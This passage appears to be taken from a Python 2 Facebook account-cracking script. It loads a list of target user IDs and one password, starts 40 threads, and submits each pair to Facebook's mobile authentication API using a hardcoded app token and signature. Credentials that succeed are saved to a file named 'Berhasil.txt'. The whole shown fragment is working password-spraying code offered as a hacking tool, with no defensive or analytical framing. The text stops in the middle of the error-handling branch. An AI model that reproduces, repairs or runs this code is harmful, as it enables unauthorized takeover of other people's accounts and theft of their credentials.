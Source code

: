 print '\x1b[1;91m[!] Terget not found'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()


def crack():
global file
global idlist
global passw
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()
else:
os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID \x1b[1;91m: \x1b[1;97m')
passw = raw_input('\x1b[1;91m[+] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;97m')
try:
file = open(idlist, 'r')
jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
for x in range(40):
zedd = threading.Thread(target=scrak, args=())
zedd.start()
threads.append(zedd)

for zedd in threads:
zedd.join()

except IOError:
print '\x1b[1;91m[!] File not found'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()


def scrak():
global back
global berhasil
global cekpoint
global gagal
global up
try:
buka = open(idlist, 'r')
up = buka.read().split()
while file:
username = file.readline().strip()
url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + username + '&locale=en_US&password=' + passw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6'
data = urllib.urlopen(url)
mpsh = json.load(data)
if back == len(up):
break
if 'access_token' in mpsh:
bisa = open('Berhasil.txt', 'w')
bisa.write(username + ' | ' + passw + '\n')
bisa.close()
berhasil.append('\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + username + ' | ' + passw)
back += 1
else:
if 'www.facebook.com' in mpsh['error_msg']: